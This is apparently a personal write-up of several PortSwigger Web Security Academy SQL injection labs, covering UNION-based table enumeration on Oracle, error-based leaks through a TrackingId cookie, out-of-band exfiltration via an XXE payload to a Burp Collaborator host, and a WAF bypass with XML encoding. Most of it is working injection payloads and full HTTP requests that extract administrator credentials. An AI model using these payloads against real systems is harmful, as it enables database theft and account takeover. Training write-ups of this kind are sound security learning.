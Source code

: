# Challenges
## SQL injection attack, listing the database contents on Oracle
In the Shop app, get logged in as Administrator using the SQLi vulnerability. 
## Observations
- Server errors out on a single quote to the Categories filter param. 
- Determine the number of columns that are being returned by the query and which columns contain text data. Verify that the query is returning two columns, both of which contain text, using a payload like the following in the category parameter:

```'+UNION+SELECT+'abc','def'+FROM+dual--```
- Use the following payload to retrieve the list of tables in the database:

```'+UNION+SELECT+table_name,NULL+FROM+all_tables--```
- Find the name of the table containing user credentials.
Use the following payload (replacing the table name) to retrieve the details of the columns in the table:

```'+UNION+SELECT+column_name,NULL+FROM+all_tab_columns+WHERE+table_name='USERS_ADBYJT'--```
- Find the names of the columns containing usernames and passwords.
Use the following payload (replacing the table and column names) to retrieve the usernames and passwords for all users:

```'+UNION+SELECT+USERNAME_ADGIOH,+PASSWORD_DXIGSJ+FROM+USERS_ABCDEF-- ```

Final payload:
```GET /filter?category=Gifts%27%20UNION%20SELECT%20USERNAME_ADGIOH,PASSWORD_DXIGSJ+FROM+USERS_ADBYJT--```
Find the password for the administrator user, and use it to log in.

## Visible error-based SQL injection
In the Shop app, get the administrator username and password. 
## Observations
- The TrackingId cookie is vulnerable to SQLi. 
- There is only 1 column:
```
GET /filter?category=Gifts HTTP/2
Host: 0ac100860458d22081a92fdb004300d4.web-security-academy.net
Cookie: TrackingId=TynCM5K6RLRKdCPa'+ORDER+BY+1--; session=rzBGt19n6jve3MMgkapeHCTeDfGy3NpX
```
- Adapt the query to include a generic SELECT subquery and cast the returned value to an int data type:

```TrackingId=ogAZZfxtOKUELbuJ' AND CAST((SELECT 1) AS int)--```
Send the request. Observe that you now get a different error saying that an AND condition must be a boolean expression.

- Modify the condition accordingly. For example, you can simply add a comparison operator (=) as follows:

```TrackingId=ogAZZfxtOKUELbuJ' AND 1=CAST((SELECT 1) AS int)--```
Send the request. Confirm that you no longer receive an error. This suggests that this is a valid query again.

- Adapt your generic SELECT statement so that it retrieves usernames from the database:

```TrackingId=ogAZZfxtOKUELbuJ' AND 1=CAST((SELECT username FROM users) AS int)--```
Observe that you receive the initial error message again. Notice that your query now appears to be truncated due to a character limit. As a result, the comment characters you added to fix up the query aren't included.

- Delete the original value of the TrackingId cookie to free up some additional characters. Resend the request.

```TrackingId=' AND 1=CAST((SELECT username FROM users) AS int)--```
Notice that you receive a new error message, which appears to be generated by the database. This suggests that the query was run properly, but you're still getting an error because it unexpectedly returned more than one row.

- Modify the query to return only one row:

```TrackingId=' AND 1=CAST((SELECT username FROM users LIMIT 1) AS int)--```

```
Cookie: TrackingId=T' AND 1=CAST((SELECT username FROM users LIMIT 1) AS int)--; session=rzBGt19n6jve3MMgkapeHCTeDfGy3NpX
```
Send the request. Observe that the error message now leaks the first username from the users table:

ERROR: invalid input syntax for type integer: "administrator"

- Now that you know that the administrator is the first user in the table, modify the query once again to leak their password:

```TrackingId=' AND 1=CAST((SELECT password FROM users LIMIT 1) AS int)--```

```
GET /filter?category=Gifts HTTP/2
Host: 0ac100860458d22081a92fdb004300d4.web-security-academy.net
Cookie: TrackingId=T' AND 1=CAST((SELECT password FROM users LIMIT 1) AS int)--; session=rzBGt19n6jve3MMgkapeHCTeDfGy3NpX
```
- Log in as administrator using the stolen password to solve the lab.

# Blind SQL injection with out-of-band interaction
Get a DNS lookup to BurpCollaborator via the SQLi.
## Observations
No clear vulnerabilities. There is a TrackingId cookie so it may be in that but it doesn't seem to change the behavior of the application. 

- Oracle payload to get OOB interaction:
```
GET /filter?category=Toys+%26+Games HTTP/2
Host: 0a8a003c030d338e828b8deb004c0055.web-security-academy.net
Cookie: TrackingId=pdPF94XVSqyqI0Ts'||+(SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//wllxdgwpnw3dop9t2v2lbwp2vt1kpbd0.oastify.com/">+%25remote%3b]>'),'/l')+FROM+dual)--; session=LKe7iMf5zWDWrruDj7hwS1HSi6f1yIyz
```

# Blind SQL injection with out-of-band data exfiltration
In this challenge, the goal is to get the username and password for administrator using the OOB server. 

It is very similar to the above challenge so we'll just redo that but modify the payload to append the necessary information to the request to collaborator:

- Start with this payload to confirm OOB interaction:
```
'||+(SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//5696yphy85om9yu2n4nuw5abg2mtamyb.oastify.com/">+%25remote%3b]>'),'/l')+FROM+dual)--
```
- Then we need to actuall extract data. We do this by modifying the payload to include information from the users table. To do that, we prepend the select statement to the OOB URL:
``` '||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||' ```
So the total payload looks like this:
```
GET / HTTP/2
Host: 0ad6003b03dee4e48084082400a000b3.web-security-academy.net
Cookie: TrackingId=NZabXq0UXiDJYBCi'||+(SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'5696yphy85om9yu2n4nuw5abg2mtamyb.oastify.com/">+%25remote%3b]>'),'/l')+FROM+dual)--; session=lGNWfFh61OTxKMmsh25Ka9MeoYPdMbtl
```
Just the payload:
```
'||+(SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'5696yphy85om9yu2n4nuw5abg2mtamyb.oastify.com/">+%25remote%3b]>'),'/l')+FROM+dual)--
```
The password is prepended to the Hostname in the request. Use that to log in, solved. 

BTW BurpSuite Pro Scanner will find this OOB which is hard because I haven't found a real easy way to see it without that. 

# SQL Injection with filter bypass via XML Encoding
The goal of this challenge is to get the admin's credentials and log into their account via the SQLi. 
## Observations
- Very much unlike the other SQLi labs. This one appears to be within the XML of the product lookup API requests which is cool. 
- Adding a single quote to the value of the productId threw an "attack detected" error. So, we'll try to subvert that logic to get through. 
- Screwed around on ProductId for a while, while it does prompt the WAF, its not the vulnerable function. It is StoreID. Using Hackverter and hex_entities encoding I coud get the column with ```1 UNION SELECT NULL``` There isn't a second column, throws a zero "error". 
- Need to concatenant the username and password columns since we can only retrieve one, or do them separately. 
```
1 UNION SELECT username || '~' || password FROM users
```
